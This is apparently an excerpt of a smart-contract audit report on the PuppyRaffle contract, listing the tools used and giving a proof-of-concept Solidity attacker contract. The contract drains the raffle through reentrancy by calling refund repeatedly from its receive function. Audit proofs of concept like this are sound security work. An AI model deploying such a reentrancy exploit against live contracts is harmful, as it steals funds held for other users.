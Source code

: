 ### Tools Used
* Manual Audit
* Foundry

### POC
Create a new attacker contract below.

> Note: this is just a POC contract. It is beyond scope of this POC to ensure this attack contract is written securely and that funds are handled correctly once the contract has them.
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

import {PuppyRaffle} from "./PuppyRaffle.sol";

contract MaliciousContract {
    uint256 playerIndex;
    PuppyRaffle raffle;

    constructor(address _raffleContract) {
        raffle = PuppyRaffle(_raffleContract);
    }

    receive() external payable {
        // code execution enters here when refund is sent
        uint256 currentBalance = address(raffle).balance;

        // ask for a refund again
        // this enters the raffle contract in a loop where we continue to
        // get refunds until there is 1 ether or less left in the refund contract
        if (currentBalance >= 1 ether) {
            raffle.refund(playerIndex);
        }
    }

    function getFunds() external payable {}

    function attack() external {
        // create player array to enter raffle
        address[] memory players = new address[](1);
        players[0] = address(this);

        // enter raffle as the contract
        raffle.enterRaffle{value: 1 ether}(players);

        // get our index in the players array
        playerIndex = raffle.getActivePlayerIndex(address(this));

        // ask for a refund
        raffle.refund(playerIndex);
    }
}
```

